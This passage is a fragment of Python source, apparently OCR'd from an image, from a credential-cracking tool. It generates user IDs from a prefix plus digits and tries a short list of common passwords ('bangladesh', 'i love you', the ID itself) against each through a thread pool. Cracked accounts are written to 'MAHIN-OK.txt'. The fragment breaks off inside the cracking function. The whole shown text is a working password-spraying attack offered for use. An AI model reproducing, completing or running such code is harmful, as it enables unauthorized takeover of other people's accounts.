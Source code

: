 	    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•\033[38;5;46m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•")
	    for guru in user:
		    uid = kode+guru
		    pwx = [guru, 'bangladesh','Bangladesh','i love you','I Love You',]
		    yaari.submit(rcrack,uid,pwx,tl)
    print('\nCRACK PROCESS HAS BEEN COMPLETED ')
    print('\nIDS SAVED IN MAHIN-OK.txt')
    print(54*'─')

agents=[]

def rcrack(uid,pwx,tl):
	#print(user)
	global loop
	global cps
	global oks
	global agents
	try:
		for ps in pwx:
